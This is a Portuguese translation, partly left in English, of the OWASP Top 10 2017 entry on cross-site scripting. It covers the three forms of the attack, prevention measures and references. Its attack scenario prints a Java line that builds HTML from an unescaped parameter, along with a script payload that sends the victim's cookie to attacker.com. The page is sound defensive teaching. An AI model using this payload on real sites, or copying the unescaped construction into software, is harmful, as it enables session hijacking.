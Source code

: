 # A7:2017 Cross-Site Scripting (XSS)

| Agentes de Ameaça/Vectores de Ataque | Fraquezas de Segurança           | Impactos               |
| -- | -- | -- |
| Nível de Acesso \| Exploração 3 | Prevalência 3 \| Deteção 3 | Técnico 2 \| Negócio |
| Ferramentas automáticas podem detectar e explorar todas as três formas de XSS, e existem muitas framewoeks de exploração disponíveis. | XSS é o segundo mais prevalente aspecto no OWASP Top 10, e encontra-se em cerca de dois terços de todas as aplicações. As ferramentas automáticas podem encontrar alguns problemas de XSS automaticamente, em particular em tecnologias maduras como o PHP, J2EE/JSP, e ASP.NET. | O impacto do XSS é moderado para as variantes de XSS reflectido e DOM XSS, e severo no caso do XSS armazenado, com execução remota de código no browser da vítima, para roubo de credenciais, sessões, ou entrega de malware à vítima. |

## Está a Aplicação Vulnerável?

Existem três formas de XSS, que afectam o browser das vítimas:

* **XSS Reflectido**: A sua aplicação ou API inclui as entradas não validadas e não limpas do utilizador como parte do HTML resultante ou então não existe um cabeçalho da política de segurança do conteúdo (_content security policy_) ([CSP](https://www.owasp.org/index.php/Content_Security_Policy)). Um ataque bem sucedido pode permitir a um atacante a execução de código arbitrário de HTML e Javascript no browser da vítima. Tipicamente o utilizador vai precisar de interagir com uma ligação, ou algum tipo de página controlada pelo utilizador, tais como publicidade maliciosa, "_watering pole attack_", ou algo semelhante.
* **XSS Armazenado**: A sua aplicação ou API armazena entradas não limpas do utilizador que são visualizadas mais tarde por outro utilizador ou administrador. O XSS armazenado é considerado frequentemente como sendo de elevado risco.
* **DOM XSS**: As frameworks de JavaScript, aplicações de página única, e APIs que dinamicamente incluam dados controlados por um atacante para uma página são vulneráveis a um DOM XSS. Idealmente, evitaria enviar dados controlados pelo atacante para APIs de Javascript inseguras.

Os ataques típicos de XSS incluem o roubo de sessões, roubo ou controlo de contas, ultrapassar factores de autenticação múltipla (MFA), substituição ou alteração de nós no DOM (tais como painéis de autenticação falsos), ataques contra o browser web do utilizador tais como o descarregar software malicioso, captura e registo de teclas ou outros ataques do lado do cliente.

## Como Prevenir?

Prevenir ataques de XSS requer a separação de dados não confiáveis do conteúdo activo de um browser.

* Usar frameworks seguras que limpam de forma automática o XSS por desenho, tal como acontece com o Ruby 3.0 ou React JS, ou então alavancar as proteções de XSS das frameworks.
* Limpar pedidos de dados HTTP não confiáveis baseado no contexto do resultado HTML (corpo, attribute, JavaScript, CSS, or URL) will resolve Reflected and Stored XSS vulnerabilities. The [OWASP XSS Prevention Cheat Sheet](https://www.owasp.org/index.php/XSS_(Cross_Site_Scripting)_Prevention_Cheat_Sheet) has details on the required data escaping techniques.
* Applying context sensitive encoding when modifying the browser document on the client side acts against DOM XSS. When this cannot be avoided, similar context sensitive escaping techniques can be applied to browser APIs as described in the [OWASP DOM based XSS Prevention Cheat Sheet](https://www.owasp.org/index.php/DOM_based_XSS_Prevention_Cheat_Sheet).
* Enabling a [Content Security Policy (CSP)](https://developer.mozilla.org/en-US/docs/Web/HTTP/CSP) is a defense in depth mitigating control against XSS, assuming no other vulnerabilities exist that would allow placing malicious code via local file include such as path traversal overwrites, or vulnerable libraries in permitted sources, such as content delivery network or local libraries. 

## Exemplos de Cenários de Ataque

**Scenario 1**: The application uses untrusted data in the construction of the following HTML snippet without validation or escaping:

```
   (String) page += "<input name='creditcard' type='TEXT' value='" + request.getParameter("CC") + "'>";
```

The attacker modifies the 'CC' parameter in the browser to:

```
><script>document.location='http://www.attacker.com/cgi-bin/cookie.cgi?foo='+document.cookie</script>'.
```

This attack causes the victim's session ID to be sent to the attacker's website, allowing the attacker to hijack the user's current session.

Note that attackers can use XSS to defeat any automated CSRF defense the application might employ. 

## Referências

### OWASP

* [OWASP Proactive Controls: #3 Encode Data](https://www.owasp.org/index.php/OWASP_Proactive_Controls#tab=OWASP_Proactive_Controls_2016)
* [OWASP Proactive Controls: #4 Validate Data](https://www.owasp.org/index.php/OWASP_Proactive_Controls#tab=OWASP_Proactive_Controls_2016)
* [OWASP Application Security Verification Standard: V5](https://www.owasp.org/index.php/Category:OWASP_Application_Security_Verification_Standard_Project)
* [OWASP Testing Guide: Testing for Reflected XSS](https://www.owasp.org/index.php/Testing_for_Reflected_Cross_site_scripting_(OTG-INPVAL-001))
* [OWASP Testing Guide: Testing for Stored XSS](https://www.owasp.org/index.php/Testing_for_Stored_Cross_site_scripting_(OTG-INPVAL-002))
* [OWASP Testing Guide: Testing for DOM XSS](https://www.owasp.org/index.php/Testing_for_DOM-based_Cross_site_scripting_(OTG-CLIENT-001))
* [OWASP Cheat Sheet: XSS Prevention](https://www.owasp.org/index.php/XSS_(Cross_Site_Scripting)_Prevention_Cheat_Sheet)
* [OWASP Cheat Sheet: DOM based XSS Prevention](https://www.owasp.org/index.php/DOM_based_XSS_Prevention_Cheat_Sheet)
* [OWASP Cheat Sheet: XSS Filter Evasion](https://www.owasp.org/index.php/XSS_Filter_Evasion_Cheat_Sheet)
* [OWASP Java Encoder Project](https://www.owasp.org/index.php/OWASP_Java_Encoder_Project)

### Externas

* [CWE-79: Improper neutralization of user supplied input](https://cwe.mitre.org/data/definitions/79.html)
* [PortSwigger: Client-side template injection](https://portswigger.net/knowledgebase/issues/details/00200308_clientsidetemplateinjection)
